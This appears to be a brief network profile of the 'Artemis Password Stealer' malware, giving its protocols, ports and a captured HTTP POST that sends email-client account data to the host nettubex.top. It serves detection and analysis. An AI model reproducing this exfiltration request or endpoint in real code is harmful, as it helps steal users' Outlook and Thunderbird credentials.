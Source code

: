 # Artemis Password Stealer

# Protocols:
HTTP
DNS

# Ports:
80
53

# Sample:

```
POST /es/es.php HTTP/1.1
Host: nettubex.top
Content-Length: 51
Connection: Keep-Alive
Cache-Control: no-cache

{"outlook-accounts":null,"thunderbird-emails":null}
```
